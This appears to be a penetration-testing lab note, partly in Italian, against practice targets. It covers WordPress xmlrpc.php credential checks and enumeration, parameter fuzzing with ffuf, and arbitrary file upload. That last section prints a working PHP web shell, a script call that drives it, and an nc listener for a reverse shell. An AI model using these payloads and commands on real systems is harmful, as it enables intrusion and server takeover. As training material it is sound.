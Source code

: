 # Attacking WordPress 'xmlrpc.php'

It is important to note that `xmlrpc.php` being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, `xmlrpc.php` can facilitate some enumeration and exploitation activities, though.

```shell
$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

$ curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

# Information Disclosure (with a twist of SQLi)

```shell
# Enumerazione di parametri validi - aggiunstare il valore fs in base al caso d'uso
$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://<TARGET IP>:<TARGET PORT>/?FUZZ=test_value' -fs 19

# trovato un parametro valido possiamo andare a modificare brute_api.py ed enumerare
# attenzione potrebbe esserci attivo un ratelimiter o un filtro su X-Forwarded-For o su X-Forwarded-IP
# eventualmente aggiustare la richiesta
$ python3 brute_api.py http://<TARGET IP>:3003
```

# Arbitrary File Upload

Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.

## Exploiting

- upload di un file `backdoor.php`

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

- creazione di uno script ad hoc `web_shell.py` (vedi file allegati)
- avvio dello script (modificare i parametri adattandoli al caso in esame)

```shell
$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
```

- in un altro terminale

```shell
$ nc -lvnp 1337
```
